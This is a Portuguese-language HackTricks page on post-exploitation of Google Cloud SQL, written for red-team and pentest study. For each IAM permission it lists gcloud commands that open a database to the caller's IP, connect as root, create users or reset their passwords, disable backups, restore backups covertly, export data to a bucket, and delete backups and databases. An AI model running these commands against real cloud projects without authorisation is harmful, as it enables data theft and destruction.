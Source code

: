 # GCP - Cloud SQL Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Cloud SQL

Para mais informações sobre Cloud SQL, confira:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para se conectar aos bancos de dados, você **só precisa de acesso à porta do banco de dados** e saber o **nome de usuário** e a **senha**, não há requisitos de IAM. Portanto, uma maneira fácil de obter acesso, supondo que o banco de dados tenha um endereço IP público, é atualizar as redes permitidas e **permitir que seu próprio endereço IP acesse-o**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Também é possível usar **`--no-backup`** para **interromper os backups** do banco de dados.

Como esses são os requisitos, não tenho certeza do que são as permissões **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se você souber, envie um PR!

### `cloudsql.users.list`

Obtenha uma **lista de todos os usuários** do banco de dados:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Esta permissão permite **criar um novo usuário dentro** do banco de dados:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Esta permissão permite **atualizar o usuário dentro** do banco de dados. Por exemplo, você poderia mudar sua senha:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups podem conter **informações sensíveis antigas**, então é interessante verificá-las.\
**Restaurar um backup** dentro de um banco de dados:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para fazê-lo de uma maneira mais furtiva, é recomendável criar uma nova instância SQL e recuperar os dados lá em vez de nas bases de dados atualmente em execução.

### `cloudsql.backupRuns.delete`

Esta permissão permite excluir backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporte um banco de dados** para um Bucket do Cloud Storage para que você possa acessá-lo a partir daí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar um banco de dados** (sobrescrever) de um Bucket do Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Excluir um banco de dados da instância do db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

